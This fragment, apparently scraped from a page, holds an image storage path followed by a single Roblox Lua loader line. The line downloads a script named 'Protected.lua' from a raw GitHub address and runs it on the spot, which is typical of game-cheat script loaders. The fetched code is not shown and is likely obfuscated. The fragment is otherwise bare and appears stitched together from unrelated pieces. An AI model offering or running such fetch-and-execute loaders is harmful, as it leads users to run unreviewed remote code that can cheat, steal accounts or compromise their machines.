 loadstring(game:HttpGet('https://raw.githubusercontent.com/Domadicoof/Domadicoof/1172733a6463254e560d2dc3875ae0a8f86e2180/Protected.lua%20(25).txt'))()
